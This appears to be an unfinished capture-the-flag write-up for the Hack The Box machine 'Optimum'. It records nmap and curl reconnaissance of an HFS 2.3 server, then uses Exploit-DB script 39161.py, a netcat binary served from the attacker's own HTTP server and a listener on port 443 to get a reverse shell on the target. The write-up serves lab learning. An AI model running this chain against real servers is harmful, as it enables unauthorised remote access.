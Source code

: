 # Optimum 

![Optimum](profile.png) 


## Summary

* blah

## Tools needed

* blah

## Detection 

Start with nmap

```
#nmap -sV -O --script *vuln* -oA nmap 10.10.10.8
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-10 21:46 CDT
Nmap scan report for 10.10.10.8
Host is up (0.044s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
| http-vuln-cve2011-3192: 
|   VULNERABLE:
|   Apache byterange filter DoS
|     State: VULNERABLE
|     IDs:  CVE:CVE-2011-3192  BID:49303
|       The Apache web server is vulnerable to a denial of service attack when numerous
|       overlapping byte ranges are requested.
|     Disclosure date: 2011-08-19
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-3192
|       https://www.tenable.com/plugins/nessus/55976
|       https://www.securityfocus.com/bid/49303
|_      https://seclists.org/fulldisclosure/2011/Aug/175
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2012|Vista|2008|7 (90%)
OS CPE: cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2008::sp1 cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows Server 2012 or Windows Server 2012 R2 (90%), Microsoft Windows Server 2012 R2 (90%), Microsoft Windows Server 2012 (88%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.34 seconds
```

OS best guess is `Microsoft Windows 2012|Vista|2008|7 (90%)`.  Open port is 80 and it's an HTTP File Server, or specifically `HFS 2.3`.  Let's start at the port.

```
curl -I 10.10.10.8:80
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 3835
Accept-Ranges: bytes
Server: HFS 2.3
Set-Cookie: HFS_SID=0.492714939173311; path=/; 
Cache-Control: no-cache, no-store, must-revalidate, max-age=-1
```

curl confirms the server version as `HFS 2.3`.  Let's check the web interface.

![hfs](hfs.png) 

Clicking around there are quite a few areas we could try to gain a foothold.  However, given this is old software, let's check searchsploit first.

```
searchsploit hfs 2.3
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
HFS Http File Server 2.3m Build 300 - Buffer Overflow (PoC)                                                                                                 | multiple/remote/48569.py
Rejetto HTTP File Server (HFS) 2.2/2.3 - Arbitrary File Upload                                                                                              | multiple/remote/30850.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (1)                                                                                         | windows/remote/34668.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)                                                                                         | windows/remote/39161.py
Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c - Remote Command Execution                                                                                    | windows/webapps/34852.txt
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```
Hard to pass up trying an RCE with Python, so let's try 39161.py.

## Exploit

```
searchsploit -m 39161
  Exploit: Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)
      URL: https://www.exploit-db.com/exploits/39161
     Path: /usr/share/exploitdb/exploits/windows/remote/39161.py
File Type: Python script, ASCII text executable, with very long lines, with CRLF line terminators

Copied to: /root/htb/optimum/39161.py
```
Checking the code, we need to get a Windows Netcat .exe ready for upload to the target server and the author expects it to be locally hosted, specifically http://<local IP>:80/nc.exe.

```
#find / | grep -i nc.exe
/usr/share/sqlninja/apps/nc.exe
/usr/share/windows-resources/binaries/nc.exe

#mkdir web
#cp /usr/share/windows-resources/binaries/nc.exe web/.
#cd web
#python3.8 -m http.server --bind 10.10.14.5 80
Serving HTTP on 10.10.14.5 port 80 (http://10.10.14.5:80/) ...
```

Let's test the makeshift web server first ...

```
#curl 10.10.14.5:80/nc.exe --output nc.exe
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 59392  100 59392    0     0  11.3M      0 --:--:-- --:--:-- --:--:-- 11.3M 

-------------------------------------------------------------------------------

#python3.8 -m http.server --bind 10.10.14.5 80
Serving HTTP on 10.10.14.5 port 80 (http://10.10.14.5:80/) ...
10.10.14.5 - - [10/Oct/2020 23:08:40] "GET /nc.exe HTTP/1.1" 200 -
```

File was downloaded, so it's working.  After fixing the hard-coded local IP and listener port in 39161.py, we're ready to execute.

```
#python 39161.py 10.10.10.8 80

-------------------------------------------------------------------------------

nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.8] 49170
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>
```

For some reason the first execution of 39161.py didn't take.  On the second attempt is when I got the shell.


## Privilege Escalation







